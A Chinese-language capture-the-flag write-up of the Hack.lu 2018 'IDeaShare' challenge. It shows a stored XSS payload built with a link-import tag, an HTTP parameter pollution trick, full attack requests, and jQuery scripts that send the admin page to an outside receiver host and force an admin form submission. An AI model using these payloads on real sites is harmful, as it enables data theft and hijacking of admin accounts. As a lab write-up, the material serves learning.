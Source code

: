 # IDeaShare

## 题目描述

> A place to share your IDeas with your friends!
>
> Try to win the best IDea competition but be wary a strong force prevents any cheating.
>
> Good luck you will need it!

题目地址(2018.10.31仍可正常访问)：[IDeaShare](https://arcade.fluxfingers.net:1818/)

访问题目地址发现是一个分享想法的平台，用户登录后可以保存自己的想法，将保存的想法分享以后，管理员会进行查看，如果分享的想法被管理员评价为`Best Idea`,就会赢得`BEST IDEA COMPETITION`

## 解题思路

访问题目时，响应头中存在这样的字段`X-XSS-Protection: 0`,再加上知道管理员将会访问提交的想法，所以很容易想到构造XSS。但首先提交的想法中对许多关键字进行了过滤(诡异的过滤规则)，其次直接访问分享的想法，也并不能看到解析生效的内容，测试中发现第二个问题可以通过HTTP参数污染来进行绕过。

## 解题过程

### 构造XSS

首先我们在记录想法的文本框中输入想法，这里的过滤规则非常诡异，但link标签没有被过滤，输入下面的内容，可以成功保存，没有被拦截：

```html
<link/rel=import href=https://https.zer0b.com/BlueLotus_XSSReceiver/myjs/tester.js>
```

然后我的用户id是304，所以访问下面的url地址可以看到分享的内容，测试到tester.js中的内容被执行了

```http
https://arcade.fluxfingers.net:1818/?page=view&raw&owner=304&pad=1
```

以上是XSS的部分的利用过程，但其实这个利用过程是有一些限制的：

* link标签的href属性必须引用https的资源，引用http地址时会有下面这样的提示说不安全，被阻止

  ![image-20181019215815504](./hacklu-ctf-2018-ideashare-cn/http_console_err.png)

  所以利用时最好有自己的域名，并启用https,这里我使用了`let's encrypt`设置证书(免费)

* 因为link标签引用了我们自己编写的js文件，所以我们存放js的服务器需要设置`Access-Control-Allow-Origin`头才可以使资源被正常引用，如果未设置的话报错如下，可以看到跨域引用资源被禁止了![image-20181019221619447](./hacklu-ctf-2018-ideashare-cn/access_control_err.png)

  对nginx服务器来说，config文件中增加以下配置就可以启用跨域资源共享了

  ```nginx
    add_header Access-Control-Allow-Origin *;
    add_header Access-Control-Allow-Methods 'GET, POST, OPTIONS';
    add_header Access-Control-Allow-Headers 'DNT,X-Mx-ReqToken,Keep-Alive,User-Agent,X-Requested-With,If-Modified-Since,Cache-Control,Content-Type,Authorization';
  ```

### 利用HTTP参数污染

![image-20181019222416066](./hacklu-ctf-2018-ideashare-cn/shares.png)

分享以后的想法会出现在这样的列表中，管理员会访问这个列表中的地址查看并评估我们的想法，列表中的url地址如下所示：

```html
   <a href=?page=view&owner=304&pad=3>IDea Number 3</a>
```

很明显，和前面我们构造的XSS地址格式相对比，这里缺少了一个**raw**参数，所以管理员进行访问时，看到并不是我们提交的raw格式的内容，提交的内容没有被浏览器解析，无法触发XSS

因为这个地方的url格式与我们的XSS利用地址只差了一个raw参数，所以猜测存在HTTP参数污染，利用burp构造这样的请求包(**直接在浏览器地址栏中输入%26会被转义，无法生效**)：

```http
POST /?page=idea&pad=1%26raw HTTP/1.1
Host: arcade.fluxfingers.net:1818
Connection: close
Content-Length: 110
Cache-Control: max-age=0
Origin: https://arcade.fluxfingers.net:1818
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.67 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: https://arcade.fluxfingers.net:1818/?page=idea&pad=1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=l04isu07e7tg4m6gn0hsp95ses; session=b956181dfc30a872a190a76406c63e0dc9ab2c373193554c28174f6596e95aa59f41b5dd

idea=%3Clink%2Frel%3Dimport+href%3Dhttps%3A%2F%2Fhttps.zer0b.com%2FBlueLotus_XSSReceiver%2Fmyjs%2Ftester.js%3E
```

注意这里的pad名字不是1，而是`1%26raw`,发现想法保存成功，然后继续使用下面的请求进行分享操作：

```http
POST /?page=idea&pad=1%26raw HTTP/1.1
Host: arcade.fluxfingers.net:1818
Connection: close
Content-Length: 341
Cache-Control: max-age=0
Origin: https://arcade.fluxfingers.net:1818
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_0) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.67 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Referer: https://arcade.fluxfingers.net:1818/?page=idea&pad=1%26raw
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=l04isu07e7tg4m6gn0hsp95ses; session=b956181dfc30a872a190a76406c63e0dc9ab2c373193554c28174f6596e95aa59f41b5dd

share=&g-recaptcha-response=03AMGVjXhpe6wbk65KVTuzy2kfsLDT8duce0LwPj18Mec_vBg_6GvZJaBlETmfIoFRCTS-OpEk4KPm5FzfwEAQsfnSxbv_jj80RKuppequjTau-YmmNiy_Om3tbcuJUGGz3sxjMaF75uGQqVJCWpMKua-jBED5ahDSFab2ZP_Pomi9FxVFBcSxkfgYhiu9xpT7wLLbL43rO1SeExQGRBhBp9Yp5fnBfyLFB4b6KloNQ18QmVKBDXTajuUuZoFKM_gmRZs2bu5138xged-JNAuxdpOv7HLoSLpS7ukB0R_REGv5HlQULAofOQs
```

分享成功，在分享列表中发现如下名字的IDea

![image-20181021171619823](./hacklu-ctf-2018-ideashare-cn/image-20181021171619823.png)

并且它的url地址是这样的，&符号虽然被转义了，但并不影响访问，这样admin访问这个链接将会触发XSS

```html
<a href=?page=view&owner=304&pad=1&amp;raw>IDea Number 1&amp;raw</a> 
```

**ps:参数污染这个地方也做了相应过滤，所以是没有办法在这里直接构造利用js的*

### 获取flag

在最开始的tester.js中使用了XSS平台的地址，分享后发现收到了访问请求，但并没有收到cookie

![image-20181021172716373](./hacklu-ctf-2018-ideashare-cn/httponly.png)

查看Cookie发现被设置为了httpOnly，js无法对其进行读写，所以后台无法收到cookie

![image-20181021173018469](./hacklu-ctf-2018-ideashare-cn/admin.png)

前台页面中我们发现了admin页面的地址，发现只有管理员才能访问，所以修改利用脚本，回传admin页面的内容，利用脚本内容如下：

```html
<script src="https://cdn.staticfile.org/jquery/1.10.2/jquery.min.js"></script>
<script>
    var xss_url='https://https.zer0b.com/BlueLotus_XSSReceiver/index.php';
    //admin page
    $.get("/?page=admin",async=false,function(result){
        $.post(xss_url,data="admin_content="+result,async=false);
    });
</script>
```

于是在XSS平台中可以收到包含页面内容的请求，admin页面中最重要的是下面这样一个form表单，用来设置winner的Id

```html
<form method="POST" action="?page=admin"> 
    <div class="form-group"> 
        <label for="password">Winner ID</label> 
        <input type="text" name="userid" class="form-control" /> 
    </div> 
    <button type="submit" class="btn btn-primary">Submit</button> 
</form> 
```

然后构造新的利用脚本如下，传入我的用户id，再次分享想法，将自己设置为winner

```html
<script src="https://cdn.staticfile.org/jquery/1.10.2/jquery.min.js"></script>
<script>
    var xss_url='https://https.zer0b.com/BlueLotus_XSSReceiver/index.php';
    //admin page
    $.post("/?page=admin",{ userid:"304" },async=false);
</script>
```

最后返回前台，查看`BEST IDEA COMPETITION`的结果，得到flag

![image-20181021175039661](./hacklu-ctf-2018-ideashare-cn/flag.png)
